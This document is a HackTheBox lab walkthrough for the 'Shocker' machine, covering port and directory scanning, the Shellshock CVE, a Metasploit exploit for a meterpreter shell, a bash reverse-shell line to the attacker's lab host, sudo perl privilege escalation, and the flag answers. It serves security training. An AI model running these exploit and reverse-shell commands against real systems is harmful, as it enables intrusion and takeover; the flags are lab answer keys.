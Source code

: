
# HackTheBox Walkthrough - Machine: Shocker

**Target IP**: 10.129.83.111  
**Difficulty**: Easy  
**Objective**: Exploit the Shellshock vulnerability to gain a reverse shell and escalate privileges.  
![webpage](img/webpage.png)

---

## Task 1: How many TCP ports are listening on Shocker?

Performed an Nmap scan:
```bash
nmap -sV -sC -oA nmap/Shocker 10.129.83.111
```
![nmap](img/nmap.png)

**Open Ports**:
- 80/tcp (HTTP)
- 2222/tcp (SSH)

**Answer**: `2`

---

## Task 2: What is the name of the directory available on the webserver that is a standard name known for running scripts via the Common Gateway Interface?

Used gobuster:
```bash
gobuster dir -u http://10.129.83.111/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
![gobuster](img/gobuster.png)

Found:
- `/cgi-bin/`

**Answer**: `cgi-bin`

---

## Task 3: What is the name of the script in the cgi-bin directory?

```bash
gobuster dir -u http://10.129.83.111/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x cgi,sh,pl
```
![gobuster2](img/gobuster2.png)

Found script:
- `/cgi-bin/user.sh`

**Answer**: `user.sh`

---

## Task 5: What 2014 CVE ID describes a remote code execution vulnerability in Bash when invoked through Apache CGI?

Found via Google search:  
![cve20146271](img/cve20146271.png)

- **CVE**: `CVE-2014-6271`

---

## Gaining Access via Shellshock Exploit

Used Metasploit module:
```bash
msfconsole
search Shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set LHOST 10.10.14.156
set RHOSTS 10.129.83.111
set TARGETURI /cgi-bin/user.sh
run
```
![meterpreter](img/meterpreter.png)

Reverse meterpreter shell obtained.

---

## Submit User Flag

```bash
cat /home/shelly/user.txt
```
![userflag](img/userflag.png)

**Answer**: `90c5a327907f4c1b29b25e275757a962`

---

## Task 8: Which binary can the shelly user can run as root on Shocker?

Started reverse shell:
```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.156/8888 <&1'
```

Checked sudo permissions:
```bash
sudo -l
```

**Answer**: `perl`

---

## Submit Root Flag

![root](img/root.png)

```bash
sudo perl -e 'exec "/bin/sh";'
cat /root/root.txt
```
![rootflag](img/rootflag.png)

**Answer**: `bcbcf1bca3a6d0af2a7c84bbda8501e9`
